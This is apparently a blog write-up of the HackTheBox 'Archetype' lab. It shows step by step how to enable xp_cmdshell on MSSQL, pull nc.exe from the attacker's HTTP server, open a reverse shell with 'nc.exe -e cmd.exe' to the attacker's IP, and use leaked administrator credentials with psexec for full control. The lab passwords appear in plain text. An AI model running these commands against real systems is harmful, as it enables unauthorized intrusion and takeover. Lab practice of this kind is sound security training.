 ```yaml
---
title: "Archetype"
description: A writeup on the machine Archetype form hackthebox starting point Tier1 level 
date: 2024-09-23
draft: false # this section allows the post to be published and be public, is it is set to true the post will not be published.
summary: "Archetype Stuff" # Here you can write a small summary of the post if needed
tags: [HTB, Very Easy ]
categories: [Tier1, Starting point]
---
```

# Archetype

![Untitled.jpg](Untitled.jpg)

## Task 1

Which TCP port is hosting a database server?

![image.png](image.png)

1433

## Task 2

What is the name of the non-Administrative share available over SMB?

![image.png](image%201.png)

backups

## Task 3

What is the password identified in the file on the SMB share?

![image.png](image%202.png)

M3g4c0rp123

## Task 4

What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

![image.png](image%203.png)

[mssqlclient.py](http://mssqlclient.py/) 

## Task 5

What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

![image.png](image%204.png)

xp_cmdshell

after we log in through impacket, we are required to stabilize our shell using the command above as shown below.

![image.png](image%205.png)

Let us try to gain RCE on this box. Follow these commands in order.

Follow these steps :

```
EXECUTE sp_configure 'show advanced options',1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

Now try running :

```
xp_cmdshell "whoami"
```

Now it’s working and this command will return us “archetype/sql_svc”.

**(Stable shell):**

Our shell is working but we won’t be executing our commands like this again
 so we will get a stable shell. Now let’s search and find something.

After some searching we found an article:

[https://pentestwiki.org/academy/how-to-get-a-xp_cmdshell-reverse-shell/](https://pentestwiki.org/academy/how-to-get-a-xp_cmdshell-reverse-shell/)

We will follow the last method: ***xp_cmdshell with nc***

- Here first we have to download nc.exe on our local system, which can be downloaded from the link: [https://github.com/int0x33/nc.exe/blob/master/nc.exe](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
- After downloading let’s set up a python server on our machine in order to send the file to the target system.

```
python3 -m http.server// Keep in mind to run the server in the folder yout nc.exe file is present
```

- We will use the following command to get the file on our target system:

```
xp_cmdshell "powershell.exe wget http://[Your_tun0_IP]:8000/nc.exe -OutFile c:\\Users\Public\\nc.exe"/*
we don't need the rest of the command because :
. we already are connected to sql
. we already logged in using correct credentials
*/
```

- If our file is successfully transferred we will get something like this in our server instance

```
root@ip-10-10-204-169:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.102.63 - - [22/Feb/2022 09:12:04] "GET /nc.exe HTTP/1.1" 200 -
```

- The next step is to execute the file in our target system for the reverse
shell. So for that first, let’s set up our Netcat listener on our
system:

```
nc -lvnp 4444
```

- We will execute the following command in our target system

```
xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe [Your_tun0_IP] 4444"
```

So
 we got our stable shell so our next step is to find the flags. So user 
flag is in the Dekstop folder and we can navigate to that folder :

```
cd \
cd Users
cd sql_svc
cd Desktop
type user.txt
```

![image.png](image%206.png)

## Task 6

What script can be used in order to search possible paths to escalate privileges on Windows hosts?

![image.png](image%207.png)

winpeas.exe

## Task 7

What file contains the administrator's password?

![image.png](image%208.png)

ConsoleHost_history.txt

the file above contains the credentials of the admin that we can use to escalate our privileges to root the machine.

```bash
User: administrator
Password: MEGACORP_4dm1n!!
```

Now we need a tool to log in as Administrator on our target PC and we 
cannot do it directly in our Windows Powershell as we do in the Linux 
system. There is a tool from our impacket named **psexec.py** which will help us.

- Kill the PowerShell and mssqlclient on our machine.
- Let’s use our tool:

```
python3 /opt/impacket/examples/psexec.py administrator@[Target_IP]
```

![image.png](image%209.png)

next we shall change directory to the desktop directory of admin to get our root flag.

![image.png](image%2010.png)

and just like that, we have pawned our machine.